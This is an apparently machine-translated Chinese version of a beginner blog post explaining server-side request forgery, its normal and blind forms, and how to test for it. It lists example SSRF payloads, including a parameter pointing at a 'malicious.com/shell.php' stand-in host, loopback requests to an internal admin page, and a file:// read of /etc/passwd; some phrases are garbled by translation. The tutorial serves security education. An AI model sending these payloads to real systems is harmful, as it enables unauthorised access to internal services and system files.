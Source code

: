 # SSRF——服务器的漏洞 01

> 原文：<https://infosecwriteups.com/ssrf-the-servers-loophole-01-6e7e33fb1d57?source=collection_archive---------5----------------------->

## 成功的网络攻击往往始于“网络边界”。

随着公司的发展，保护网络中成千上万台机器的安全变得越来越困难。通常，攻击者在网络中需要妥协的只是一台面向公众的机器/web 服务器上的一个 bug。

今天，我们将讨论网络边界上的一个常见但严重的漏洞，称为 SSRF。我们将讨论它如何允许攻击者改变公司的网络，以及如何发现这个漏洞。

![](img/94546aac684ddd28ad6dd889552781ac.png)

# 什么是 SSRF？

服务器端请求伪造(SSRF) -是一种漏洞，当攻击者能够代表服务器发送请求时，或者我们可以说 SSRF 是一种漏洞，允许攻击者诱导服务器端应用程序向非预期位置发出请求。

例如:想象一下，有一个公开的网络服务器在一个公司的网络上，比如:public.example.com

public.example.com 的*托管位于/proxy 的代理服务，该服务将获取“URL”边界中指定的网页，并将其显示给用户。例如:当用户访问 URL 时，*

> 【http://public.example.com/proxy?url=google.com 

网络应用程序将显示“google.com”的主页

![](img/2694be2e93aa570ccb47eaece19f31d8.png)

现在让我们假设 admin.example.com 是一个内部服务器托管一个隐藏的管理面板。

为了确保只有员工可以访问管理面板，设置了访问控制，以便除了内部有效 IP 之外，任何其他人都不能访问该面板。现在，如果一个来自互联网的随机用户试图访问管理 url，并且如果 web 应用程序中没有 SSRF 保护机制，那么应用程序将向该随机用户显示管理面板。

![](img/d4a1413f49896910bfdb7ff022e64bc6.png)

从 web 应用程序隐藏管理面板

通常会被防火墙阻止的未授权请求(如获取网络中的隐藏服务)是不允许的。这是因为在面向公众的 web 服务器和互联网机器之间的网络边界上存在的保护在 public.example.com 和 admin.example.com 之间的可信网络上的机器之间不存在

![](img/8bc3a803ec0c415d6f5a1b3ad3557f98.png)

利用“伪造”来自可信服务器的请求的能力，攻击者现在可以在网络上进行各种恶意活动。根据给予易受攻击的服务器的权限，攻击者可能能够读取敏感文件、进行内部 API 调用和访问内部服务，如隐藏的管理面板。

# SSRF 的类型—

有两种类型的 SSRF 漏洞:正常的 SSRF 和盲目的 SSRF。这两种漏洞背后的机制是相同的。它们都利用同一网络中机器之间的信任。唯一的区别是，在盲 SSRF 中，攻击者不会通过 HTTP 响应或错误消息从服务器收到反馈(就像上面的例子中 admin.example.com 是如何显示的)。尽管这增加了数据泄露和网络探测的难度，但盲 SSRF 对攻击者来说仍然极具价值。稍后我们将对此进行更深入的探讨。

# 为 SSRF 测试—

发现 SSRF 漏洞的最佳方法是手动检查代码，查看是否所有的 url 输入都经过了验证。但是，如果源代码不可用，应该将精力集中在测试最容易出现 SSRF 的 web 应用程序的功能上。SSRF 还有另一个方面:当应用服务器能够与用户不能直接到达的其他后端系统交互时，通常会出现信任关系。这些后端系统通常具有可路由的私有 IP 地址，或者仅限于某些主机。由于它们受到网络拓扑的保护，它们通常缺乏更复杂的控制。这些内部系统通常包含敏感数据或功能。

考虑以下请求:

> 得到[https://example.com/page?page=about.php](https://exmple.com/page?page=about.php)

您可以使用以下有效负载来测试这个请求。

***加载文件的内容:***

> 得到[https://example.com/page?page = https://恶意. com/shell.php](https://example.com/page?page=https://malicious.com/shell.php)

***访问受限页面:***

> 得到[https://example.com/page?page=http://localhost/admin](https://exmple.com/page?page=http://localhost/admin)

**或**

> 得到[https://example.com/page?page=http://127.0.0.1/admin](https://exmple.com/page?page=http://localhost/admin)

使用环回接口访问仅限主机访问的内容。这种机制意味着，如果您有权访问主机，您也有权直接访问 **admin** 页面。

**获取本地文件:**

> 得到[https://example.com/page?page=file://etc/passwd](https://example.com/page?page=file://etc/passwd)

**使用的 HTTP 方法:**

上面所有的有效负载都可以应用于任何类型的 HTTP 请求，也可以注入到 header 和 cookie 值中。

关于 POST 请求的 SSRF 的一个重要注意事项是，SSRF 也可能以一种盲目的方式出现，因为应用程序可能不会立即返回任何内容。相反，注入的数据可用于其他功能，如 PDF 报告、发票或订单处理等。，它可能对雇员或职员可见，但不一定对最终用户或测试人员可见。

在下一篇博客中，我们将通过一些真实世界的例子来讨论寻找和利用 SSRF 漏洞的最佳方法。

感谢阅读。请帮助我使这成为新黑客更好的资源。请随意指出任何错误或让我知道我是否应该补充什么:)

直到那时；

**醒吃骇客重复🔥**

![](img/d7ea79461173d041f73922602535174e.png)

*来自 Infosec 的报道:Infosec 上每天都有很多事情发生，很难跟上。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*